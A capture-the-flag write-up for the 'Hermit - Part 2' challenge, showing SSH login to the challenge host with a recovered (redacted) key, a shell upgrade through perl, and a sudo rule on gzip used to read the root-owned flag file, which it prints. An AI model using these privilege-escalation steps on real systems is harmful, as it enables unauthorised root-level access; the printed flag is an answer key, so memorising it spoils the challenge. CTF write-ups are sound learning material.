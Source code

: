 # Hermit - Part 2

>Who are you? How did you get here? You better zip on out of here or else.
>
>104.197.195.221:8087 34.121.84.161:8087
>
>Created by Cobchise#6969
>
>(The server is likely not broken. If you really think it's broken, create a support ticket.)

>## Hint1 
>Try enumeration

>## Hint2
>The port you are looking for has been forwarded to 8087.

```
-----BEGIN OPENSSH PRIVATE KEY-----
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
-----END OPENSSH PRIVATE KEY-----


```


```bash
$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEnpZMOpI29kra1VLybw+iMSXyAVxh0q146WxMVrX7ZT hermit@local
```

```bash
$ ssh -i id_ed25519 hermit@104.197.195.221 -p 8087
Linux 162d488eac13 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 28 15:14:43 2021 from 180.150.57.6
-sh: 35: set: Illegal option -o history
$ whoami
hermit
```

## upgrading shell
```
$ which python3
$ which python
$ which perl
/usr/bin/perl

$ perl -e 'exec("/bin/bash")'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LANG = "en_CA.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
hermit@162d488eac13:~/flag$ 

```

## sudo -l

```bash
hermit@162d488eac13:~/flag$ sudo -l
Matching Defaults entries for hermit on 162d488eac13:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hermit may run the following commands on 162d488eac13:
    (ALL : ALL) ALL
    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t

hermit@162d488eac13:~/flag$ sudo /bin/gzip -f /root/rootflag.txt -t
UMASS{a_test_of_integrity}
```
